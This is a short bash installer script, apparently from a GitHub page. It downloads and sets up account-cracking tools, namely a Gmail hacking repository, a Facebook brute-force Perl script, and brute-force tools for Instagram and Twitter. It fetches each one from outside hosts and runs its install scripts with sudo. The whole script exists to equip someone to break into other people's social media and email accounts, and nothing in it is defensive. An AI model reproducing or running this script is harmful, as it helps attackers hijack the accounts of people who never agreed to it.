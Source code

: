 #!/bin/bash
#Sysupdate
sudo apt-get update 
#Python
sudo apt-get install python
#gmail
git clone https://github.com/Ha3MrX/Gemail-Hack.git
#facebook
if [ -d facebook ]; then
        echo "Directory facebook exists.[✔]"
else
	mkdir facebook
	cd facebook
	wget raw.githubusercontent.com/Sup3r-Us3r/scripts/master/fb-brute.pl
	cd ..
fi
#Instagram
git clone https://github.com/thelinuxchoice/instainsane.git
cd instainsane
chmod +x instainsane.sh
chmod +x install.sh
sudo ./install.sh
cd ..
#Twitter
git clone https://github.com/thelinuxchoice/tweetshell.git
cd tweetshell
chmod +x tweetshell.sh
chmod +x install.sh
sudo ./install.sh
cd ..

 
